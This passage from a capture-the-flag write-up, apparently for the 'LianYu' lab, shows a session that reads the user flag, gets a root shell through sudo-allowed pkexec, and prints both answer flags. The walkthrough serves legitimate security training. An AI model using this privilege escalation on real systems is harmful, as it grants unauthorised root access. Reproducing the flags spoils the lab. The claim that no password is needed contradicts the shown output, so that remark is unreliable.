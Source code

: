 We can find the user flag in our home directory:

~~~
slade@LianYu:~$ ls
user.txt
slade@LianYu:~$ cat user.txt 
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak

~~~

user.txt: `THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}`

### Q7 - root.txt

Now we need to gain root access in order to obtain the root flag, so I ran `sudo -l` to check my sudo permissions:

~~~
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
~~~

As you can see, we can run `pkexec` with sudo and no password. This command let's us execute commands as another user. If we run it with sudo, we can run commands as root, so we can easily spawn a bash shell as root:

~~~
slade@LianYu:~$ sudo /usr/bin/pkexec -u root /bin/bash
root@LianYu:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

Now we can read the root flag:

~~~
root@LianYu:~# ls
root.txt
root@LianYu:~# cat root.txt 
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825

~~~
